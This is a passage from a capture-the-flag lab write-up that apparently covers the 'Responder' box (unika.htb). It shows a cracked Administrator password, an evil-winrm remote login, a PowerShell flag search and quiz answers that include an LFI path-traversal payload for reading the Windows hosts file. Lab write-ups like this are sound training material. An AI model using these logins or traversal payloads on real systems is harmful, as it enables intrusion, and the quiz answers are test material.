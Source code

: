 There we go... `Administrator:badminton`. Time to exploit.

### WinRM
`winrm` (Windows Remote Management) is a protocol that allows devices to access a system remotely. `evil-winrm` is a tool that allows us to connect to a windows machine and still be able to use `Powershell` on `Linux`. 

```shell {linenos=false}
$ evil-winrm -i 10.129.245.210 -u Administrator -p badminton
```

We are in. Now we can run a PowerShell command to look for the flag so we don't have to!

```shell {linenos=false}
> Get-ChildItem -Path C:\ -Filter flag.txt -Recurse
```

Box popped. 

![responder](/img/tier1/responder.png)

### Questions
- When visiting the web service using the IP address, what is the domain that we are being redirected to? 
`unika.htb`
- Which scripting language is being used on the server to generate webpages? 
`php`
- What is the name of the URL parameter which is used to load different language versions of the webpage? 
`page`
- Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 
`../../../../../../../../windows/system32/drivers/etc/hosts`